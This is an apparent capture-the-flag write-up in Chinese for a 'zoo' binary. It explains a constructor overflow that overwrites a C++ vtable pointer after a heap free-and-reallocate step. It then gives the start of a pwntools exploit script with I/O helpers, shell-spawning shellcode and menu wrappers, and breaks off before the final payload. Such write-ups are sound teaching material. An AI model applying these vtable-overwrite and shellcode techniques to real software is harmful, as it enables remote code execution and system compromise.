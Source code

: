 animallist中存储的数据结构:  
  
```c  
struct{  
    void *animal_vptr;  
    char name[24];  
    int weight;  
}  
```  
  
在Dog的构造函数中存在overflow，可以覆盖虚表指针  
  
- 首先new 两个dog，然后earse 0, 再次new，这样会把之前earse的空间分配给这一次。利用overflow可以覆盖上一个的虚表指针。  
  
```python  
#encoding:utf-8  
from pwn import *  
context(os="linux", arch="amd64",log_level = "debug")  
  
p = process("./zoo")#, aslr=0  
  
elf = ELF("./zoo")  
libc = elf.libc  
#-------------------------------------
def sl(s):  
    p.sendline(s)  
def sd(s):  
    p.send(s)  
def rc(timeout=0):  
    if timeout == 0:  
        return p.recv()  
    else:  
        return p.recv(timeout=timeout)  
def ru(s, timeout=0):  
    if timeout == 0:  
        return p.recvuntil(s)  
    else:  
        return p.recvuntil(s, timeout=timeout)  
def debug(msg=''):  
    gdb.attach(p,'')  
    pause()  
def getshell():  
    p.interactive()  
#-------------------------------------
  
shellcode = asm(shellcraft.sh())  
  
def add_dog(name,weight):  
    ru(":")  
    sl("1")  
    ru(":")  
    sl(name)  
    ru(":")  
    sl(str(weight))  
  
def remove(idx):  
    ru(":")  
    sl("5")  
    ru(":")  
    sl(str(idx))  
  
def listen(idx):  
    ru(":")  
    sl("3")  
    ru(":")  
    sl(str(idx))      
```